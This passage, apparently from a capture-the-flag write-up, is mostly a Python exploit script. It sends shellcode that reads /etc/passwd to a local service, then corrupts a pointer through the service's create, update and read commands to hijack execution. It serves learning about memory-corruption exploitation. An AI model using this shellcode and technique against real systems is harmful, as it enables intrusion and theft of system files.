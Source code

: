 I stuck it in the exploit and lo and behold:

{% highlight python)
#!/usr/bin/python

from socket import *
import time, re, struct


def getID(data):
    match = re.search(r'(\d.*)$', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 \xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)


# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_pivot = getID(data)

print '[+] pivot = 0x{0:08x}'.format(p_pivot)

# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)

# send read request to crash binary
s.send('r ' + str(p_vuln) + '\n')

print s.recv(1000)
# terminate connection cleanly
time.sleep(0.1)